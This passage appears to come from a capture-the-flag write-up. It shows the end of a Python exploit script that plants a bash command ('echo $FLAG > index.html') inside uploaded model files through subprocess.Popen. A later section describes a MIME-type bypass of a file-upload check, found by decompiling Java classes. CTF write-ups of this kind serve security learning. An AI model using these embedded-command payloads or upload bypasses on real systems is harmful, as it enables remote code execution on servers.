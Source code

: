 ```python
except Exception as e:

print(f"JSON payload method failed: {e}")

try:

create_activation_exploit()

except Exception as e:

print(f"Activation method failed: {e}")

print("\nThese models embed: subprocess.Popen([\"/bin/bash\", \"-c\", \"echo $FLAG > index.html\"], bufsize=-1)")

print("Upload to trigger FLAG extraction to index.html")
```

## d3jtar

Mime type bypass for file upload functionality found manually, but confirmed using JD-GUI to view the `.class` files:

![](images/CleanShot%202025-05-30%20at%2015.32.39@2x.png)
(*Make sure to change the JD-GUI info.plist file from 1.8+ to 1.8 if you're having trouble on an M-series MacBook*)

**Facts:**
- Any uploaded file through the normal upload mechanism WILL have it's name overwritten, but it's extension will be retained.

